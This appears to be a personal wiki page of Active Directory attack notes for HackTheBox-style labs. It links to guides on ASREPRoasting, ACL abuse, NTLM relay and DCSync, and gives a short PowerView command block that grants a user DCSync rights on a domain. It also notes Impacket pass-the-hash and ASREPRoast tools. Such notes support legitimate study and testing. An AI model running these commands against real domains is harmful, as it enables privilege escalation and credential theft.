 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Exploitation Strategies
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
   - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```
## Active Directory Tools
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
   -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - 
## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
